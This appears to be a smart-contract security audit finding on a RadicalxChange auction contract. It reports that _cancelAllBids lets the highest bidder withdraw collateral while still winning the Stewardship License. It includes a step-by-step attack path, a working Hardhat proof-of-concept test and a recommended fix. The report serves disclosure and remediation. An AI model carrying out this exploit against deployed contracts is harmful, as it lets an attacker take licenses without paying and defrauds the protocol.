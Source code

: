 Real Midnight Parrot

high

# A vulnerability in the `_cancelAllBids` function allows the highest bidder to obtain the `Stewardship License` for free

## Summary
The [`cancelAllBidsAndWithdrawCollateral`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L187C14-L187C48) function in `EnglishPeriodicAuctionFacet.sol` enables users to cancel their bids and withdraw their outstanding collateral balance. However, this function can be exploited by a malicious user to steal the _Stewardship License_, while only incurring minimal expenses in the form of gas fees.

## Vulnerability Detail
Context : In order to place a bid, a bidder must outbid the previous highest bid. Therefore, when a bidder places a bid in an auction round using the [`placeBid`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L153) function, both `bids[tokenId][round][bidder].collateralAmount` **and** `highestBids[tokenId][round].collateralAmount` are updated to reflect the collateral of the bidder. Similarly, at the end of each auction round, both variables are updated to zero for the highest bidder, as they receive the _Stewardship License_ in exchange for their collateral.

The `cancelAllBidsAndWithdrawCollateral` function invokes the [`_cancelAllBids`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416) internal function, which iterates through all auction rounds for the specified `tokenId` and accumulates the outstanding collateral balance for the `bidder`. This accumulated balance from all rounds is then returned to the bidder in the [`_withdrawCollateral`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/EnglishPeriodicAuctionInternal.sol#L439) function. However, this function solely updates `bids[tokenId][round][bidder]`, allowing the highest bidder of an ongoing auction round to withdraw their collateral while still retaining their position as the highest bidder in the ongoing auction round. Consequently, if no higher bid is placed by the end of the auction round (i.e., `highestBids[tokenId][currentAuctionRound]` is not updated), the _Stewardship License_ is transferred to this bidder, allowing them to effectively obtain it for free since they withdrew their collateral.

A valid attack path would be:
1. An auction commences for _Stewardship License_ `tokenId` and bids are placed.
2. The attacker outbids the highest bid just before the auction ends and calls `cancelAllBidsAndWithdrawCollateral` in the same transaction, thereby receiving their collateral back.
3. When [`closeAuction`](https://github.com/RadicalxChange/pco-art/blob/4acd6b06840028ba616b6200439ce0d6aa1e6276/contracts/auction/facets/EnglishPeriodicAuctionFacet.sol#L225) is called, the attacker receives the _Stewardship License_.

Proof of Code : 
A simulation of the above-mentioned scenario can be carried out by copying the following test into `EnglishPeriodicAuction.ts` and running `yarn run hardhat test --grep 'POC'` : 

```typescript
describe('exploit', function () {
    it('POC', async function () {
      // Auction start: Now + 100
      // Auction end: Now + 400
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) + 100,
        licensePeriod: 1000,
      });
      const licenseMock = await ethers.getContractAt(
        'NativeStewardLicenseMock',
        instance.address,
      );

      // storing the initial balance of the attacker (bidder1)
      const oldBidder1Balance = await ethers.provider.getBalance(
        bidder1.address,
      );

      // Mint license to bidder2
      const steward = bidder2.address;
      await licenseMock.mintToken(steward, 0);

      // Start auction
      await time.increase(300);
        
      // Placing an initial bid
      const bidAmount = ethers.utils.parseEther('1.0');
      const feeAmount = await instance.calculateFeeFromBid(bidAmount);
      const collateralAmount = feeAmount.add(bidAmount);

      await instance
        .connect(owner)
        .placeBid(0, bidAmount, { value: collateralAmount });

      const bidAmount1 = ethers.utils.parseEther('1.5');
      const feeAmount1 = await instance.calculateFeeFromBid(bidAmount1);
      const collateralAmount1 = feeAmount1.add(bidAmount1);

     // the attacker outbids the highest bid, cancels their bid and withdraws their collateral just before the auction ends
      await time.increase(50);

      await instance
        .connect(bidder1)
        .placeBid(0, bidAmount1, { value: collateralAmount1 });

      await instance.connect(bidder1).cancelAllBidsAndWithdrawCollateral(0);

      await time.increase(50);

      // the auction closes
      await instance.connect(owner).closeAuction(0);

      // storing the final balance of the attacker (bidder1)
      const newBidder1Balance = await ethers.provider.getBalance(
        bidder1.address,
      );

      // the owner of the stewardship license is now the attacker (bidder1)
      expect(await licenseMock.ownerOf(0)).to.be.equal(bidder1.address);

      // however the attacker still retains the collateral they placed in the auction, the only loss is the gas fees (which is miniscule)
      expect(oldBidder1Balance.sub(newBidder1Balance)).to.be.lt(
        collateralAmount1,
      );

      // the attacker has practically stolen the stewardship license

    });
  });
```
## Impact
The _Stewardship License_ can be obtained for free, rendering the protocol ineffective.
## Code Snippet

## Tool used

Manual Review
Hardhat

## Recommendation
Update `_cancelAllBids` to : 

```solidity
function _cancelAllBids(uint256 tokenId, address bidder) internal { 
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

        require(
            bidder != l.highestBids[tokenId][currentAuctionRound].bidder,
            'EnglishPeriodicAuction: Cannot cancel bid if highest bidder'
        );

        for (uint256 i = 0; i <= currentAuctionRound; i++) {
            Bid storage bid = l.bids[tokenId][i][bidder];

            if (bid.collateralAmount > 0) {
                // Make collateral available to withdraw
                l.availableCollateral[bidder] += bid.collateralAmount;

                // Reset collateral and bid
                bid.collateralAmount = 0;
                bid.bidAmount = 0;
            }
        }
    }
```
